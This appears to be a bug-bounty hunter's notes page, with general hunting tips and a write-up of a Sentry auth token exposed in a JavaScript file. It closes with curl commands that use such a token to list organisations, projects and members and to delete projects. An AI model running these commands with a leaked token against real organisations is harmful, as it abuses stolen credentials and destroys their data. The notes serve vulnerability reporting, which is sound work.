 ## General bounty infromation and tips 

* do not be intimidated with public or private programs which has many hunters 

- for platform programs look at the hactivity section and disclosed reports.
- here you can find bypasses or ideas or more infromation on the app.
- you can also look at the report and try to find a bypass.

link to xss notes and techniques
- https://x.com/nav1n0x/status/1860044537932251225?t=FireSNfXHDVfaszce9J14Q&s=08


`
Vulnerability: Exposed Sentry Auth Token in JavaScript File or any where

Description:
A Sentry authentication token was found exposed in a JavaScript file, allowing access to:

Projects (view and delete capabilities).
Members (team roles and permissions).
Organizations (entire organizational structure).
Impact:
Full access to sensitive project data.
Ability to delete critical projects, posing significant risks to the organization.
Lesson:
Sentry tokens are highly sensitive and must never be hardcoded or exposed publicly.
Developers should use environment variables or secure storage to protect these tokens.
Notes:
Such issues seem to be increasingly common due to insecure development practices.
Always review public code repositories for potential token leaks.
`


- listing organisations
`curl -H 'Authorization: Bearer Auth_Token' sentry.io/api/0/organizations/`
- Listing Projects
`curl -H 'Authorization: Bearer Auth_Token' sentry.io/api/0/projects/ `
-Listing members
`curl -H 'Authorization: Bearer Auth_Token' sentry.io/api/0/organization/{memberID}/members`
- Deleting projects
`curl https://sentry.io/api/0/projects/{ID}/{project_id_or_slug}/  -H 'Authorization: Bearer Auth_Token'  -X DELETE`

